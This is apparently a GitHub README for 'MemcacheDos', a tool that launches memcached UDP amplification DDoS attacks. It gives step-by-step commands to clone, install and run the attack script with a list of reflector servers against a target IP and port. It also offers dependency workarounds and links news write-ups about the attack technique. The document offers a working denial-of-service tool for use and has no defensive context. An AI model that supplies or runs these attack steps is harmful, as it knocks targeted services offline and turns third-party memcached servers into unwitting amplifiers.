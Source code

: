 # MemcacheDos
Memcache DDOS.

# Steps
```
git clone https://github.com/laet4x/memcached-ddos.git
cd memcached-ddos
npm install
./node_modules/.bin/ts-node main.ts --list result.txt --ip 1.1.1.1 --port 80
```

# Q&A
* Testing Server
  > CentOS7, nodejs v6.12.3 yum
* `npm install raw-socket`
  > use `npm install --unsafe` 

# Related News
* [Memcrashed - Major amplification attacks from UDP port 11211](https://blog.cloudflare.com/memcrashed-major-amplification-attacks-from-port-11211/)
* [Use Memcache as a DRDoS Reflection Amplifier for DDoS Attacks](https://cert.360.cn/warning/detail?id=c63eb87058834e37c7c112c35ef5f9fd)
